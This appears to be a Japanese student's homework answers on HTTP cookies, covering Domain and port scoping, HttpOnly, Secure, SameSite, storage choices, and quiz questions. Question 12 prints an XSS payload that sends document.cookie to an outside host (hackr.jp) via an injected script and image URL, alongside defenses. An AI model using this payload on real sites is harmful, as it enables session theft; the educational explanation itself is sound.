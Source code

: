 # 課題4

## 問題１

　HTTPはステートレス・プロトコルであるため、以前やり取りしたリクエストやレスポンスの状態を管理しない。つまり、以前の状態を踏まえた上でのリクエストを処理することができない。たとえば、認証が必要なWebページで状態管理が無いとすると、認証済みという状態を忘れてしまうため、新たなページに移動するたびに再度ログイン情報を送るか、リクエストごとにパラメーターか何かをつけてログイン状態を管理しなければならなくなる。  
　ステートレス・プロトコルの特徴は残したまま、こういった問題を解決するためにCookieが取り入れられた。Cookieは、リクエストとレスポンスにCookieという情報を載せることによって、クライアントの状態を把握するための仕組み。  
　Cookieは、サーバーからのレスポンスで送られたSet-Cookieというヘッダーフィールドによって、Cookieをクライアントに保持してもらうように指示を出す。次に、クライアントが同じサーバーにリクエストを出す際には、クライアントが自動的にCookieに値を入れて送信する。  
　サーバーはクライアントが送ってきたCookieを見ることで、どのクライアントからのアクセスなのかをチェックし、サーバー上の記録を確かめることで、以前の状態を知ることができる。

## 問題2

送信されない。  
Domain属性が指定されていない場合、同一オリジンでのみ利用可能なため。

## 問題3

送信される。  
同一ホストであれば、異なるポートにも送信される。

[参考](https://datatracker.ietf.org/doc/html/rfc6265)

```
Similarly, cookies for a given host are shared across all the ports on that host
```

## 問題4

送信されない。  
Domain属性が指定されていない場合、同一オリジンでのみ利用可能となり、サブドメインは除外される。

## 問題5

送信される。  
Domain属性が指定されている場合、サブドメインにも送出される。

## 問題6

HttpOnly属性を指定することで可能になる。  
HttpOnly属性は、Cookieの取得をJavaScript経由で行うことができないようにするCookieの拡張機能。  
HttpOnly属性が指定されたCookieはJavaScriptの「Document.cookie」APIにアクセスできなくなる。

## 問題7

Secure属性を指定することで可能になる。  
Secure属性は、WebページがHTTPSで開かれているときのみに、Cookieが送出されるよう制限する。

## 問題8

Expires属性は、ブラウザがCookieを送出することができる有効期限を指定することができる。

## 問題9

SameSite属性は、ブラウザがクロスサイトリクエストとともにCookieが送信されることを防ぐ。  
主な目的は、クロスオリジンの情報漏洩リスクを軽減することで、CSRF の対策にもなる。  
取ることができる値は、Strict, Lax, Noneの3つ。  
Strictの値を設定すると、すべてのクロスサイトの閲覧コンテキストにおいて、ブラウザからターゲットサイトにクッキーが送信されないようになる。  
Laxの値を設定すると、外部のウェブサイトで通常のリンクからアクセスしたときはCookieを許可し、CSRF が発生しやすいリクエストメソッド (POST など) ではCookieをブロックする。  
Noneの値を設定すると、ブラウザはすべての閲覧コンテキストでクッキーを送信する。

[参考](https://owasp.org/www-community/SameSite)

## 問題10

- 4096バイトを超える容量の大きい情報。
- サーバーに送信する必要が無い情報。
- 暗号化されていないパスワードなどの秘匿性の高い情報

## 問題11

クッキーを使うべきタイミング  
ログイン情報などのサーバーに送信する必要がある情報や、秘匿性の高い重要な情報を保持するとき

ローカルストレージを使うべきタイミング  
サイトの表示設定などの、サーバーに送信する必要がない情報。

## 問題12

下記のようなスクリプトを仕込むことで、ユーザーのCookieをXSSによって奪うことができる。

``` JavaScript
<script src=http://hackr.jp/xss.js></scriot>
```

このスクリプトが指し示す http://hackr.jp/xss.js は下記のJavaScriptが記述されている

``` JavaScript
const content = escape(document.cookie);
document.write("<img src=http://hackr.jp/?");
document.write(content);
document.write(">")
```

このJavaScriptがXSSの脆弱性のあるWebアプリケーション上で実行されると、そのWebアプリケーションのドメインのCookie情報にアクセスされる。
そして、その情報が http://hackr.jp/ に送信され、ユーザーのCookie情報を奪うことができる。

対策としてはCookieにHttpOnly属性を設定し、JavaScriptで「document.cookie」にアクセスできなくする方法や、
ユーザーの入出力が行われる箇所でエスケープ処理を行うなどの方法がある。

## クイズ1

レスポンスヘッダーフィールドに、値を出力する処理があるところに改行コードを挿入されることで、任意のCookieをセットされる攻撃は次のうちどれ？

- ディレクトリ・トラバーサル
- メールヘッダーインジェクション
- HTTPヘッダーインジェクション
- リモート・ファイル・インクルージョン

## クイズ2

攻撃者はXSSによりセッションIDを含んだCookieを入手し、ユーザーのセッションIDを入手した攻撃者は、ブラウザのCookieにセッションIDをセットし、Webサイトにアクセスすることでユーザーになりすまし、不正アクセスする行為は次のうちどれ？

- セッションハイジャック
- セッションフィクセーション
- セッションアダプション

## クイズ3

Cookieとは関係が無いのは次のうちどれ？

- RFC2109
- RFC2965
- RFC6265
- RFC1951
